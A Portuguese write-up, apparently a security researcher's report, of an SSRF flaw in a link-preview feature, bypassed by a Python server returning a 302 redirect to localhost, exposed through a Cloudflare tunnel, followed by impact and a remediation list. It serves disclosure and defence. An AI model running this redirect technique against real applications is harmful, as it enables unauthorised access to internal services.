


# SSRF via Redirect — Aplicação Web

**Tipo de vulnerabilidade:** Server-Side Request Forgery (SSRF)   
**Severidade:** Média   
**Categoria:** A10:2021 – Server-Side Request Forgery (SSRF) / CWE-918

## Resumo Executivo

A aplicação possuía uma funcionalidade para gerar links a partir de URLs fornecidas pelo usuário. Após o envio da URL, o servidor realizava uma requisição para o endereço informado e extraía metadados da página, como valores das tags `title`, `meta` e outros elementos HTML, utilizando essas informações como descrição do link.

O fluxo observado era:

```text
Usuário insere a URL
        ↓
A aplicação realiza uma requisição para a URL
        ↓
Os metadados da página são extraídos
        ↓
A descrição do link é preenchida
        ↓
O usuário confirma a criação do link
```

Esse comportamento permitia que um usuário influenciasse o destino das requisições realizadas pelo servidor.

## Comportamento da Requisição

Durante os testes, foi observado que a aplicação permitia realizar requisições para hosts e portas externos arbitrários.

Entretanto, requisições direcionadas diretamente para endereços locais, como `localhost` e `127.0.0.1`, não apresentavam os metadados esperados na descrição do link. Isso indicava a existência de algum mecanismo de validação ou bloqueio para determinados destinos internos.

Também foi observado que protocolos diferentes de `HTTP` e `HTTPS` não eram aceitos.

## Bypass via Redirecionamento

Durante os testes, foi identificado que a aplicação seguia redirecionamentos HTTP.

A partir disso, foi utilizado um servidor sob controle do pesquisador para retornar uma resposta `302 Found`, direcionando a aplicação para um destino que não era aceito quando informado diretamente.

O fluxo utilizado foi:

```text
Aplicação
    │
    │ GET https://servidor-controlado/
    ↓
Servidor controlado
    │
    │ HTTP 302
    │ Location: http://127.0.0.1:...
    ↓
Destino interno
```

Para reproduzir o comportamento, foi utilizado um servidor Python simples:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

html = """
<body>
    test
</body>
"""

class Handler(BaseHTTPRequestHandler):

    def dump_request(self, body=b""):
        print("\n" + "=" * 60)
        print(f"Cliente: {self.client_address[0]}:{self.client_address[1]}")
        print(f"{self.command} {self.path}")
        print("=" * 60)

        print("\nHeaders:")
        for k, v in self.headers.items():
            print(f"{k}: {v}")

        if body:
            print("\nBody:")
            try:
                print(body.decode("utf-8"))
            except UnicodeDecodeError:
                print(body)

        print("=" * 60)

    def do_GET(self):
        self.dump_request()

        self.send_response(302)
        self.send_header("Content-Type", "text/html; charset=utf-8")
        self.send_header("Location", "<destino>")
        self.end_headers()

        self.wfile.write(html.encode("utf-8"))

    def log_message(self, fmt, *args):
        pass


HTTPServer(("0.0.0.0", 80), Handler).serve_forever()
```

O servidor foi exposto externamente utilizando um Cloudflare Tunnel:

```text
cloudflared tunnel --url http://localhost:80
```

A URL pública fornecida pelo tunnel foi então utilizada como destino inicial da requisição realizada pela aplicação.

Ao receber a requisição, o servidor retornava um redirecionamento HTTP para o destino que não era acessível diretamente.

## Resultado Alcançado

Após o redirecionamento, a aplicação realizou a requisição para `localhost` e processou o conteúdo retornado pelo serviço.

O conteúdo obtido através do acesso local continha o mesmo valor presente na tag `<title>` da aplicação acessível externamente. Essa correspondência permitiu confirmar que a resposta obtida através de `localhost` correspondia à própria aplicação.

Por questões de privacidade e para evitar a exposição de informações que possam identificar o serviço, o conteúdo HTML presente na evidência foi parcialmente ocultado.

### Evidências
Requisição para o servidor controlado:   


A imagem demonstra o conteúdo retornado após o acesso a localhost, mantendo apenas as informações necessárias para comprovar o comportamento.


Esse comportamento demonstra que, embora o acesso direto ao destino local fosse bloqueado, a aplicação podia ser induzida a acessar `localhost` por meio de um redirecionamento HTTP.

## Impacto

A vulnerabilidade permitia contornar a validação aplicada aos destinos locais e fazer com que o servidor realizasse requisições para o próprio ambiente local.

No cenário demonstrado, foi possível utilizar um redirecionamento HTTP para fazer a aplicação acessar `localhost` e retornar conteúdo da própria aplicação. A correspondência entre o conteúdo retornado e o `title` da aplicação confirmou que o destino local foi efetivamente alcançado.

Embora o teste tenha demonstrado o acesso à própria aplicação, o impacto de um SSRF desse tipo não se limita necessariamente a esse recurso. A possibilidade de acessar outros serviços depende da arquitetura do ambiente, dos serviços disponíveis localmente e das regras de comunicação da rede.
## Correção

A aplicação não deve confiar apenas na validação da URL fornecida inicialmente pelo usuário. O destino final da requisição também deve ser validado após cada redirecionamento.

Como medidas de correção, recomenda-se:

* Validar o destino final de cada requisição antes de estabelecer a conexão.
* Validar novamente a URL após cada redirecionamento HTTP.
* Restringir requisições a uma lista de hosts ou domínios permitidos (*allowlist*), quando possível.
* Bloquear endereços pertencentes a redes privadas, loopback, link-local e outras faixas reservadas que não sejam necessárias para a funcionalidade.
* Resolver o hostname e validar o endereço IP obtido antes da conexão.
* Revalidar o endereço após a resolução DNS para evitar que um hostname inicialmente permitido resolva posteriormente para um endereço interno.
* Limitar os protocolos permitidos a `HTTP` e `HTTPS`, caso sejam os únicos necessários para a funcionalidade.
* Aplicar limites de redirecionamento para reduzir a possibilidade de abuso da funcionalidade.
* Quando possível, realizar as requisições em um ambiente isolado, com acesso de rede restrito aos recursos estritamente necessários.

A validação deve ser aplicada ao **destino efetivamente acessado**, e não somente à URL fornecida inicialmente pelo usuário. Isso impede que um atacante utilize um servidor intermediário para redirecionar a aplicação para um endereço que seria bloqueado quando informado diretamente.


